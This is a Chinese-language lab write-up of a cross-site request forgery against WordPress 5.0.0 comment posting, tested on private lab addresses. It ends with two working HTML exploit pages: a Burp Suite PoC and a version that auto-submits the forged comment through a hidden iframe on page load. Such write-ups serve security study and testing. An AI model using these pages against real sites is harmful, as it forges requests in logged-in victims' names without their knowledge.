

## CSRF-wordpress5.0.0

## 环境

wordpress5.0.0（https://cn.wordpress.org/wordpress-5.0-zh_CN.tar.gz）

burpsuite

## 简介

评论存在CSRF

## 利用
找一篇文章进行评论，点击发表评论，用burpsutie拦截


打开CSRF poc


为了区别，把testtext改成testtest，刷新


将html代码复制保存为wp-csrf2.html，上传到40.99


确保admin登陆的情况下，访问http://10.10.40.99:8088/wp-csrf2.html


点击表单按钮，成功csrf


## reference

[如何通过iframe以post方式提交form表单](https://www.cnblogs.com/yangzhihang627/p/5826417.html)

## 后记

wordpress 评论有审核机制，管理员审核通过才可以显示，推测漏洞实际影响不大。

burp 自动生成的payload 还是需要点击的，比较笨重：

	<html>
	  <!-- CSRF PoC - generated by Burp Suite Professional -->
	  <body>
	  <script>history.pushState('', '', '/')</script>
	    <form action="http://10.10.40.63/wordpress/wp-comments-post.php" method="POST">
	      <input type="hidden" name="comment" value="testtest1" />
	      <input type="hidden" name="author" value="test" />
	      <input type="hidden" name="email" value="test&#64;test&#46;com" />
	      <input type="hidden" name="url" value="test" />
	      <input type="hidden" name="submit" value="å&#143;&#145;è&#161;&#168;è&#175;&#132;è&#174;º" />
	      <input type="hidden" name="comment&#95;post&#95;ID" value="1" />
	      <input type="hidden" name="comment&#95;parent" value="0" />
	      <input type="submit" value="Submit request" />
	    </form>
	  </body>
	</html>

因此改成打开网页自动触发式：

vul.html

	<html>
	 <body> 
	  <form action="http://10.10.40.63/wordpress/wp-comments-post.php" method="POST" id="speaker_form" target="form_iframe"> 
	   <input type="hidden" name="comment" value="testtest123" /> 
	   <input type="hidden" name="author" value="test" /> 
	   <input type="hidden" name="email" value="test@test.com" /> 
	   <input type="hidden" name="url" value="test" /> 
	   <input type="hidden" name="comment_post_ID" value="1" /> 
	   <input type="hidden" name="comment_parent" value="0" /> 
	  </form> 
	  
	  <iframe name="form_iframe" style="display:none;"></iframe> 
	  <script>
	  document.getElementById('speaker_form').submit();
	  </script>   
	 </body>
	</html>

增加了如下代码：

	<iframe name="form_iframe" style="display:none;"></iframe> 
	 <script>
	document.getElementById('speaker_form').submit();
	</script>   

并让form的target指向iframe，这样做的好处是利用iframe提交表单可以不刷新页面。

**注意改成这种方式，要把```<input>```里面的submit去掉，否则运行js会报错**

